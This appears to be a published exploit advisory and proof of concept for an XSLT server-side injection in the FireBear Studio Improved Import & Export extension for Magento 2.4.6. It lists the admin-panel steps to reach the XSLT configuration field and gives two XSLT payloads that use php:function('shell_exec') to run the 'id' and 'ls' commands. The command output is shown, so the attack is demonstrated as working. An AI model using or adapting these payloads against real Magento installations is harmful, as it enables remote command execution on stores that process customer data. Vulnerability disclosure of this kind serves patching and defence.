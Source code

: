 # Exploit Title: FireBear Studio Improved Import & Export ver. 3.8.6 for Magento 2.4.6  - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [FireBear Studio](https://commercemarketplace.adobe.com/)
- **Software Link:** [ FireBear Studio Improved Import & Export ](https://commercemarketplace.adobe.com/firebear-importexport.html)
- **Version:**  FireBear Improved Import & Export ver. 3.8.6

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/magento.png" alt="Magento Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/3.png" alt="Magento Image" width="1000">
## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import File Type > XML > Import Source is File
4. Upload any xml file
5. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','ls')" />
     </xsl:template>
   </xsl:stylesheet>```

**<?xml version="1.0"?>
cron.php
errors
get.php
health_check.php
index.php
media
opt
robots.txt
static
static.php

